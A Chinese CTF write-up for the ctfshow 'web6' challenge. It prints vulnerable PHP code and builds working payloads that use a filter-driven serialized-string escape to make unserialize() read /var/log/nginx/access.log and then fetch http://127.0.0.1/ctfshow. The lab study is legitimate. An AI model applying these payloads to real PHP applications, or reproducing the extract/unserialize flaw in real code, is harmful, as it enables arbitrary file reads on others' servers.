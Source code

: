 ##  web6

考点：反序列化数组+字符串逃逸

这道题还是挺有意思的，首先看代码

```php
 <?php

error_reporting(0);
highlight_file(__FILE__);
$function = $_GET['POST'];

function filter($img){
    $filter_arr = array('ctfshow','daniu','happyhuyear');
    $filter = '/'.implode('|',$filter_arr).'/i';
    //implode函数是将数组元素变成字符串
    return preg_replace($filter,'',$img);
}

if($_SESSION){
    unset($_SESSION);
}

$_SESSION['function'] = $function;

extract($_POST['GET']);

$_SESSION['file'] = base64_encode("/root/flag");

$serialize_info = filter(serialize($_SESSION));

if($function == 'GET'){
    $userinfo = unserialize($serialize_info);
    //出题人已经拿过flag，题目正常,也就是说...
    echo file_get_contents(base64_decode($userinfo['file']));
} 
```

`extract`函数,是将一个数组中键名作为变量名，这儿就有一种类型题是变量覆盖（没有用到）

我们需要$function == 'GET'

```
?POST=GET
```

利用点就是`file_get_contents`获取文件内容

查看web服务器是nginx，和题目中文字提示，得知我们应该需要读取nginx日志文件`/var/log/nginx/access.log`

构造反序列化数组

```
GET[_SESSION][ctfshowdaniu]=s:1:";s:1:"1";s:4:"file";s:36:"L3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZw==";}
```

解释：因为是`extract($_POST['GET']);`，我们需要POST一个数组`GET[_SESSION][ctfshowdaniu]`,这样传进去就可以得到$_SESSION数组变量，ctfshowdaniu是数组变量中的一个键。

为什么需要ctfshowdaniu？

答：为了利用filter函数中的`str_replace`替换成空，变成字符串减少的字符串逃逸。

```php
$serialize_info为：
a:2:{s:12:"";s:70:"s:1:";s:1:"1";s:4:"file";s:36:"L3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZw==";}";s:4:"file";s:16:"L3Jvb3QvZmxhZw==";}
$userinfo 为：
array(2) {
  '";s:70:"s:1:' =>
  string(1) "1"
  'file' =>
  string(36) "L3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZw=="
}
```

`ctfshowdaniu`刚好12个字符，替换成空后，需要12个字符来填充--`";s:70:"s:1:`刚好12个字符，

payload中的`s:1:";s:1:"1"`中`s:1:`是完成前面12个字符的补充，后面的`";s:1:"1"`是为了补充完成一个键值对的反序列化格式。其中70个字符就是payload字符的70个。这样就达到一个字符的逃逸，让后面的`s:4:"file";s:16:"L3Jvb3QvZmxhZw==";`不起作用了。



构造payload代码

```php
<?php
$_SESSION['function'] = 'GET';
$_POST[_SESSION][ctfshowdaniu]='s:1:";s:1:"1";s:4:"file";s:36:"L3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZw==";}';
extract($_POST);
$_SESSION['file'] = base64_encode("/root/flag");
echo serialize($_SESSION).PHP_EOL;
```

为什么后面没有function？

因为`extract`函数处理`ctfshowdaniu`将数组变量的值`function`直接覆盖了。

![image-20220208114304688](https://img-blog.csdnimg.cn/img_convert/bbed607dd7cba0fd5a07046b46f27fbd.png)

然后再读取http://127.0.0.1/ctfshow

```
GET[_SESSION][ctfshowdaniu]=s:1:";s:1:"1";s:4:"file";s:32:"aHR0cDovLzEyNy4wLjAuMS9jdGZzaG93";}
```

